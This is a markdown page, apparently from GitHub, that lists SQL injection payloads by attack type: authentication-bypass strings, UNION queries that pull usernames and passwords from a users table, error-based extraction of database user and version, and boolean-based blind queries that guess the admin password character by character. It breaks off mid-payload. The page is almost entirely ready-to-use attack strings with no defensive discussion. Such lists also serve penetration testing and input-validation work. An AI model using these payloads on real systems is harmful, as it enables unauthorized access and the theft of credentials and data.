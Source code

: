 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((